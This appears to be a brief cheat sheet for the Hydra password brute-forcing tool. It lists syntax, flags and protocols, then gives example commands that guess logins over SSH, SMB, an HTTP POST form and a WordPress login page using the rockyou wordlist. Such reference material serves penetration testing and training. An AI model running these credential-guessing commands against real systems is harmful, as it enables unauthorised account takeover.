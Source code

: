 # **Basic syntax :**
`hydra [options] <IP> <protocole>`

# **Some flags :**
`-h`  Show help menu
`-l <username>`  Username/login
`-L <wordlist>`  Usernames/login wordlist
`-p <password>`  Password
`-P <wordlist>`  Passwords wordlist
`-s <PORT>`  Specify port
`-f`  Stop bruteforce as soon as username and password are found
`-R`  Restore previous session
`-t <number>`  Number of threads
`-V`  Verbosity

# **Some protocols :**
SSH, FTP, POP3, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-HEAD, HTTP-POST, HTTP-GET, IMAP,
SMB, SMTP, MySQL, etc...

# **Examples :**
`hydra -l admin -P rockyou.txt 192.168.10.10 ssh`
`hydra -L top-usernames-shortlist.txt -P rockyou.txt 192.168.10.10 ssh`
`hydra -L top-usernames-shortlist.txt -P rockyou.txt 192.168.10.10 smb`

### Bruteforce HTTP Post form :
`hydra -l username -P rockyou.txt 192.168.10.10 http-post-form "/login:username=^USER^&password=^PASS^:F=Your password is incorrect"`

### Bruteforce Wordpress :
`hydra -l username -P rockyou.txt 192.168.10.10 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`




